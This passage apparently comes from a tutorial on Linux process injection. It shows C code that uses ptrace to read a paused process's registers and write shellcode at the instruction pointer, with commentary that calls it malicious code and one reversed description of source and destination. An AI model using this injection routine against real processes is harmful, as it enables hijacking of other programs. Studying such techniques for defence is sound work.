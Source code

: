 ```c
printf ("+ Getting Registers\n");
  if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }

  printf ("+ Injecting shell code at %p\n", (void*)regs.rip);
  inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);
  regs.rip += 2;	      

```
We are attached to the process and we need to inject our code into the process.
In 64 Bit Architecture, register RIP contains the address of the next instruction to be executed.
Same way in 32 Bit, EIP contains the address of the next instruction to be executed.

So, now as we have the target process in paused state, we want to redirect the execution to our malicious code. But first we need to find out what instruction was going to be executed next.

Simple purpose of this will be to resume the target process after our malicious code is executed.

So, we need to get current state of the registers with **PTRACE_GETREGS** and store them in **&regs**.

**regs.rip** contains the value of RIP register.

 we then call the **inject_data** function with arguments, **target process**, **shellcode** to be injected, **address of the rip** and **size** of our shellcode


```c
Int inject_data (pid_t pid, unsigned char *src, void *dst, int len)
{
  int      i;
  uint32_t *s = (uint32_t *) src;
  uint32_t *d = (uint32_t *) dst;
  for (i = 0; i < len; i+=4, s++, d++)
    {
      if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0)
	{
	  perror ("ptrace(POKETEXT):");
	  return -1;
	}
    }
  return 0;
}
```
here, **inject_data** function is defined, which takes **process_id** , **source pointer**, **destination pointer** and **length** as arguments

We have defined several variables.

here, for loop executes **PTRACE_POKETEXT** which writes data from destination to source, in this case destination being our process memory and source being our shellcode.
